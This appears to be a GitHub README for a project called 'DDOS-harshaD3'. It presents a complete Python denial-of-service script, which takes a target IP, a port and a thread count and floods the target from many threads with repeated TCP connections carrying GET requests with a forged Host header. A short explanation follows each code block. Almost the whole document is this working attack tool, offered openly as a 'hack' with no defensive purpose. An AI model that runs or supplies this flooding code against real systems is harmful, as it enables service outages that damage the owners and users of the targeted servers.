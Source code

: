 # DDOS-harshaD3

![Cool Typography Boo Halloween Store Logo](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/590fba29-1f58-45de-9ebc-4e8b603d14f0)


![Black Modern Breaking News Instagram Post](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/a3d5d752-b53f-48a0-bb83-ad1b72a825c7)


# DOS hack python script ...........!

 import socket
 import threading 

-->These lines import necessary modules from Python's standard library. socket is used for creating network sockets, and threading is used for creating and managing threads.

target = input("Insert target’s IP: ")
port = int(input("Insert Port: "))
num_threads = int(input("Insert number of Threads: "))

-->These lines prompt the user to input the IP address of the target server, the port number to attack, and the number of threads (connections) to create for the attack. The input() function is used to take input from the user, and int() is used to convert the input to integers where necessary.

![image](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/36e370c6-71f7-4174-afa5-e90ac4d8edac)

fake_ip = '44.197.175.168'
attack_num = 0

-->Here, fake_ip is assigned a dummy IP address which will be used in the forged HTTP request header. attack_num is initialized to keep track of the number of requests sent during the attack.

def attack():
    global attack_num
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target, port))
            s.send(f"GET /{target} HTTP/1.1\r\n".encode('utf-8'))
            s.send(f"Host: {fake_ip}\r\n\r\n".encode('utf-8'))
            s.close()
            attack_num += 1
            print(f"Attack number: {attack_num}")
        except Exception as e:
            print(f"Error: {e}")
            
-->This function attack() is defined to simulate the DoS attack. It continuously tries to establish a connection to the target server using TCP/IP sockets (socket.socket()), sends a fake HTTP GET request with a forged IP address in the header, increments the attack_num counter, and prints the number of attacks. If an exception occurs during the attack, it prints the error message.


threads = []
for _ in range(num_threads):
    thread = threading.Thread(target=attack)
    thread.start()
    threads.append(thread)
    
-->These lines create a list threads to store the threads created for the attack. It then creates the specified number of threads (num_threads) by looping through and calling the attack() function as the target for each thread. Each thread is started (thread.start()) and added to the threads list.
for thread in threads:
    thread.join()
    
-->Finally, this loop waits for all threads to finish executing (thread.join()). It ensures that the main program waits for all threads to complete before it terminates.



Importing Libraries:

python
Copy code
import socket
import threading
